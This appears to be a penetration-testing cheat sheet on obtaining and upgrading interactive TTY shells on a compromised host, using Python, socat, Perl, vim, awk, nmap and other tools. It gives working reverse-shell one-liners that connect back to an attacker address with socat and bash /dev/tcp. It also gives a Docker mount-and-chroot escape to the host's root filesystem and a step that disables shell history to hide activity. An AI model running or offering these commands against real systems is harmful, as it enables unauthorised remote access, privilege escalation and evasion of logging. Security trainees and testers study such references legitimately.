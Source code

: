 # Spawning TTY Shells

## 🔧 Python Methods

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

You can also use:

```bash
python -c 'import os; os.system("/bin/bash")'
```

## 🐍 Socat Methods (from attacker and victim)

On attacker (listener):

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

On victim (reverse shell):

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<ATTACKER_IP>:4444
```

## 🦀 Script Method (if available on the system)

```bash
script /dev/null -c bash
```

### 🧠 Regaining Full Terminal Control
1. Suspend with `Ctrl + Z`
2. On the attacker host:

```bash
stty raw -echo; fg reset xterm
```
### 📦 Ensuring Terminal Configuration

```bash
echo $TERM # Verify terminal type
export TERM=xterm # Set terminal type if needed
export SHELL=/bin/bash # Force bash if possible
```

### 🖼 Adjusting Window Size (prevents errors when using programs like `nano`, `htop`, etc.)
1. On the attacker host:

```bash
stty size # Example output: 30 127
```

2. On the remote shell:

```bash
stty rows 30 columns 127
```

## 📟 /dev/tcp and Bash Method (interactive reverse shell)

```bash
bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1
```

Once connected, you can upgrade the shell with stty (explained below).

## 🐚 Shell Upgrade with System Commands (stty and export)

Once you use any of the above methods (like python -c 'pty.spawn(...)'), you can further improve it with:

```bash
CTRL+Z   # Pause the shell and return to your local terminal
stty raw -echo; fg
```

Then, type:

```bash
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <num>    # Adjust size if needed
```

## 🧬 With Perl

```bash
perl -e 'exec "/bin/bash";'
```

Or with pseudo-terminal:

```bash
perl -e 'use POSIX; POSIX::setsid(); exec "/bin/bash";'
```

## ☕ With Java

If Runtime.exec() is accessible:

```java
Runtime.getRuntime().exec("/bin/bash");
```

(Generally not very useful manually, but useful in Java app exploitation).

## 🦥 With Lua

```bash
lua -e "os.execute('/bin/bash')"
```

## 🧱 With Awk

```bash
awk 'BEGIN {system("/bin/bash")}'
```

## 🧪 With Tcl

```bash
tclsh
exec /bin/bash
```

## 🧞‍♂️ With vi or vim (command mode)

```bash
vim
:!bash
```

Or:

```bash
vim -c ':!bash'
```

## 🖋️ With nmap (if it has scripting with --interactive)

```bash
nmap --interactive
!sh
```

## 💾 With Docker / Chroot / chsh if you have permissions

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Or if you can change your shell:

```bash
chsh -s /bin/bash
```

## 🧠 Useful Tips

If you have a shell without colors or history, export:

```bash
export TERM=xterm-256color
export HISTFILE=/dev/null
```

To check if a TTY is assigned:

```bash
tty
```
